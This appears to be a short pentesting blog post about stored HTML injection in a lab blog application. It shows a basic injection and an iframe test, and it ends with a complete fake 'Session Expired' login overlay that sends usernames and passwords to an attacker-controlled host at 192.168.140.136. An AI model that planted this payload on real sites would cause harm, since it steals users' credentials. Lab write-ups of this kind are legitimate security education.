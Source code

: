```yaml
---
layout: post
title: HTML Injection -Stored (Blog)
categories:
  - Web-Pentesting
---
```


<br>For this vulnerability consider a scenario where the blog stores a commend or some sort of text message from the users.

![16](https://teckk2.github.io/assets/images/Web%20Pentest/A1/16.png)
![17](https://teckk2.github.io/assets/images/Web%20Pentest/A1/17.png)
<br>As you can see the user teck submitted the text “test” at 15:21:36 on 2018-02-02
<br> Let’s try basic html injection first
![18](https://teckk2.github.io/assets/images/Web%20Pentest/A1/18.png)
![19](https://teckk2.github.io/assets/images/Web%20Pentest/A1/19.png)
<br>As you can see it’s working.
<br>Now let’s try with <iframe>
![20](https://teckk2.github.io/assets/images/Web%20Pentest/A1/20.png)
![21](https://teckk2.github.io/assets/images/Web%20Pentest/A1/21.png)
<br>It’s working, so using this we can trick the user to login to the web page and meanwhile we will capture the credential of that user.
![22](https://teckk2.github.io/assets/images/Web%20Pentest/A1/22.png)

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><div style="position: absolute; left: 0px; top: 0px; width: 800px; height: 600px; 
<br>background-color:white;">
<br>Session Expired, Please Login:<br>
<br><form name="login" action="http://192.168.140.136/hacktheuser.php/">
<br><table>
<br><tr><td>Username:</td><td><input type="text" name="user"/></td></tr>
<br><tr><td>Password:</td><td><input type="password" name="pass"/></td></tr>
<br></table>
<br><input type="submit" value="Login"/>
<br></form>
<br></div></p>
</div>
</font>

